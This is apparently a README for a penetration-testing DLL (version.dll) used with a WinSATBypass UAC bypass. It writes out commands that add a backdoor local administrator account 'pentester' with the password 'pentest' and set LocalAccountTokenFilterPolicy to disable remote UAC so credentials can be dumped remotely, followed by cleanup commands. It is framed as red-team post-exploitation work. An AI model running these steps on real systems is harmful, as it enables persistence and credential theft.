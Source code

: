 # Allow Remote Credentials Dump

## Scenario
---

You just got a reverse shell on a box, running `whoami` and `net localgroup Administrators` shows you that you are part of the local admin group. 

But you don't have any credentials to run tools like `CrackMapExec` remotely. Or you have Credentials, but when you are providing them to `CrackMapExec` it doesn't mark the user as `Pwn3d` and you can't get any credentials.

The reason being that Remote UAC is probably enabled for administrative account, making it impossible to connect on the target with `impacket-wmiexec` or dumping creds with `CrackMapExec`.

---

## Description
---

This version of `version.dll` creates a new account with the name `pentester` and password `pentest` and adds it to the local `Administrators` group.

Therefore it adds a key in the registry in order to disable Remote UAC for local admins account.

The DLL runs the following commands:

```
net user pentester pentest /add
net localgroup Administrators pentester /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
After running Invoke-WinSATBypass with this DLL, you should be able to dump credentials remotely with the local admin account `pentester` / `pentest`

---

## Cleaning Up
---

Since we added a new account and tampered with the registry, we need to run these commands in an elevated shell in order to bring things back to normal:

```
net user pentester /DELETE
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 0 /f
```
---



